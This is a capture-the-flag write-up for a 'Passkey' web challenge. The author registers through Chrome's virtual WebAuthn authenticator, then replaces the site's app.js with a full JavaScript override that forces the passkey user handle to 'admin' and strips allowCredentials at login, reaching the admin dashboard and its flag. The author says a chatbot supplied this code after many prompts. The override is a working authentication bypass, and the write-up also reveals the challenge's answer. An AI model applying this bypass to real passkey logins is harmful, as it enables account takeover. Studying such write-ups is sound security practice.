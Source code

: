 # Level-6 - Passkey

DESCRIPTION

Our web crawler has flagged a suspicious unlisted web service that looks to be a portal where SPECTRE operates from. It does not seem to rely on traditional authentication methods, however.

This service is open for anyone to sign up as a user. All you need is a unique username of your choosing, and passkey.

Go to https://passkey.chals.tisc25.ctf.sg to begin.

Good luck, and may your passkeys guide you to victory!

---

Okay so we are given a website where there seems to be a register page and login page. When we try to register we are told to set up a passkey with Windows Hello. 

So I asked CHAT what to do.

It told me to use the Chrome developer tools and use the WebAuthenticator and setup an authenticator. So thats what I did.

<img width="980" height="310" alt="image" src="https://github.com/user-attachments/assets/0889fb25-031c-46cd-86a0-e998f9d4d957" />

Now whenever I register an account, the credentials are saved in the authenticator and I can now login.

<img width="982" height="302" alt="image" src="https://github.com/user-attachments/assets/6f950f50-4746-42b3-9c0c-37e8505bd027" />

After logining we see this dashboard:

<img width="927" height="360" alt="image" src="https://github.com/user-attachments/assets/e2d84811-102b-41b1-ab07-7c932e727b94" />

Clearly we have to be admin somehow, so clearly I asked chat.

It then told me I had to override the /app.js the website uses. (duh)

And after much prompts it finally gave me a app.js file that when used to override, allowed me to login as admin.

```
function base64UrlToBuffer(b64url) {
  const pad = '='.repeat((4 - (b64url.length % 4)) % 4);
  const b64 = (b64url + pad).replace(/-/g, '+').replace(/_/g, '/');
  const bin = atob(b64);
  const arr = new Uint8Array(bin.length);
  for (let i = 0; i < bin.length; i++) arr[i] = bin.charCodeAt(i);
  return arr.buffer;
}

function bufferToBase64Url(buf) {
  const bytes = new Uint8Array(buf);
  let bin = '';
  for (const b of bytes) bin += String.fromCharCode(b);
  return btoa(bin).replace(/\+/g, '-').replace(/\//g, '_').replace(/=+$/, '');
}

(function () {
  const toAB = (v) => {
    if (v instanceof ArrayBuffer) return v;
    if (ArrayBuffer.isView?.(v)) {
      // copy the view's bytes into a standalone ArrayBuffer
      return v.buffer.slice(v.byteOffset, v.byteOffset + v.byteLength);
    }
    return new TextEncoder().encode(String(v)).buffer;
  };

  // --- REGISTER: force admin handle; require resident + UV; use cross-platform key (USB/NFC)
  const oldCreate = navigator.credentials.create?.bind(navigator.credentials);
  if (oldCreate) {
    navigator.credentials.create = async (opts) => {
      try {
        const pk = opts?.publicKey ?? {};
        if (pk.user?.id) pk.user.id = toAB("admin"); // change to "uzc" if needed

        const sel = (pk.authenticatorSelection ||= {});
        sel.authenticatorAttachment = "cross-platform";   // important for USB/NFC
        sel.residentKey = "required";
        pk.requireResidentKey = true;                     // legacy flag some libs read
        sel.userVerification = "required";

        console.log("[override] REGISTER opts", {
          rpId: pk.rp?.id, rk: sel.residentKey, uv: sel.userVerification,
          attachment: sel.authenticatorAttachment, userIdLen: pk.user?.id?.byteLength
        });

        const cred = await oldCreate(opts);
        console.log("[override] REGISTER success", cred);
        return cred;
      } catch (e) {
        console.error("[override] REGISTER failed:", e.name, e.message);
        throw e;
      }
    };
  }

  // --- LOGIN: only clear allowCredentials for admin/uzc so normal users still work
  const oldGet = navigator.credentials.get?.bind(navigator.credentials);
  if (oldGet) {
    navigator.credentials.get = async (opts) => {
      try {
        const m = document.body?.innerText?.match(/Authenticating\s+([^\.\s]+)/);
        const uname = m?.[1]?.trim().toLowerCase();
        if ((uname === "admin" || uname === "uzc") && opts?.publicKey?.allowCredentials) {
          delete opts.publicKey.allowCredentials;
          console.log("[override] LOGIN(", uname, "): cleared allowCredentials");
        } else {
          console.log("[override] LOGIN(", uname ?? "unknown", "): kept allowCredentials");
        }
        const asr = opts?.publicKey?.allowSilentDiscovery ?? false;
        console.log("[override] LOGIN opts", { asr });
        const assertion = await oldGet(opts);
        console.log("[override] LOGIN success", assertion);
        return assertion;
      } catch (e) {
        console.error("[override] LOGIN failed:", e.name, e.message);
        throw e;
      }
    };
  }
})();
```

Now all I had to do was to register any account and login with the user admin. And it works!

<img width="943" height="391" alt="image" src="https://github.com/user-attachments/assets/01bf6120-a138-4ff6-856f-87dcc64f3aef" />

We are now jacked in as admin and can access the admin dashboard. On the dashboard, the flag is displayed

<img width="464" height="221" alt="image" src="https://github.com/user-attachments/assets/4bb2f856-66e6-42b5-bc09-35523e963669" />

FLAG: TISC{p4ssk3y_is_gr3a7_t|sC}

(Read other writeups if you want to know what this chall does) (Also prepare for like 1 more writeup where CHAT did most of the work)
